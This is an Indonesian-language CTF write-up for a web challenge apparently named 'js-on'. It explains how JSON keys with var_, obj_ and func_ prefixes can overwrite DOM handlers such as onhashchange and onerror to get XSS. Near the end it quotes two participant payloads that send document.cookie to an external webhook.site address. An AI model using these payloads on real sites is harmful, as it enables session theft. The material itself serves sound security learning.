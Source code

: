 Fungsi diatas lah yang akan menghandle JSON yang kita masukkan pada textarea berikut.

![](https://i.imgur.com/eYbPyYI.png)

Untuk mengeksploitasinya kita perlu memahami logic dari fungsi tersebut. Fungsi tersebut akan menghadle json kita dan akan mengambil word pertama yang di split oleh `_`. Misal saja `var_message` dimana `var` adalah word pertama dan `message` adalah word kedua, jika kita buat seperti gambar diatas maka input yang kita masukkan akan diproses oleh fungsi tersebut dan kita akan bisa mengakses variable `message` lewat developer console seperti berikut.

![](https://i.imgur.com/AMINRvD.png)

Jika kita membuat 
```json
{
	"obj_foo": {
		"func_bar": "console.log('foobar')"
	}
}
```
maka akan menghasilkan object foo dan fungsi bar seperti berikut:

![](https://i.imgur.com/xf8a1WQ.png)

Jadi dari logic program di atas kita bisa gunakan untuk mengoverwrite sebuah fungsi didalam DOM misalnya seperti `onhashchange`, `onerror`, etc.

Berikut payload yang saya gunakan untuk mendapatkan XSS pada challenge tersebut.

```json
{
    "func_onhashchange": "alert(1)",
    "obj_document": {
        "obj_location": {
            "var_hash": "foo"
        }
    }
}
```

Kita masukkan ke dalam js-on dan kita akan mendapatkan XSS.

![](https://i.imgur.com/BWH8Rh2.png)

Berikut payload lainnya yang digunakan peserta lainnya.
```json
{
    "func_Error": "navigator.sendBeacon('https://webhook.site/...', document.cookie)",
    "func_onerror": "|" 
}
```

```json
{
    "obj_Object": {
        "func_keys": "fetch('https://webhook.site/5ae647b5-d767-44cd-bf06-13d8b555e088/'+btoa(document.cookie))"
    },
    "obj_something": {
        "var_a": "dummy"
    }
}
```
